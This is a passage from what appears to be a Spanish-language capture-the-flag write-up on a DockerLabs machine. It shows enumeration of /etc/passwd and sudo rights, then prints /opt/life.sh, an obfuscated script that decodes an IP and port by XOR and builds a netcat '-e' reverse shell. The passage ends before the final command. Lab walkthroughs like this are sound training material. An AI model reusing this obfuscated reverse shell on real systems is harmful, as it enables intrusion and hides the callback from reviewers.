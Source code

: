 ~~~ bash
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dimer@dockerlabs:~$      
~~~



# Escalada de privilegios
---
Para poder hacer `Ctrl + L`, necesitamos cambiar la variable de entorno `TERM`

~~~ bash
export TERM=xterm
~~~

Si leemos el archivo `/etc/passwd` podemos ver que existen los usuarios `bilter` y `purter` además de `dimer` y `root`

~~~ bash
dimer@dockerlabs:~$ cat /etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
dimer:x:1001:1001:dimer,,,:/home/dimer:/bin/bash
bilter:x:1000:1000:bilter,,,:/home/bilter:/bin/bash
purter:x:1002:1002::/home/purter:/bin/bash
~~~


## Sudoers Privileges - `dimer`

Primeramente listaremos los privilegios `sudoers` que tengamos asignados

~~~ bash
dimer@dockerlabs:~$ sudo -l

Matching Defaults entries for dimer on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dimer may run the following commands on dockerlabs:
    (bilter : bilter) NOPASSWD: /opt/life.sh
~~~

Podemos ejecutar el script `/opt/life.sh` como el usuario `bilter`

~~~ bash
dimer@dockerlabs:~$ cat /opt/life.sh
#!/bin/bash

set +m

v1=$((0xCAFEBABE ^ 0xAC1100BA))
v2=$((0xDEADBEEF ^ 0x17B4))

a=$((v1 ^ 0xCAFEBABE))
b=$((v2 ^ 0xDEADBEEF))

c=$(printf "%d.%d.%d.%d" $(( (a >> 24) & 0xFF )) $(( (a >> 16) & 0xFF )) $(( (a >> 8) & 0xFF )) $(( a & 0xFF )))

d=$((b))

e="nc"
f="-e"
g=$c
h=$d
~~~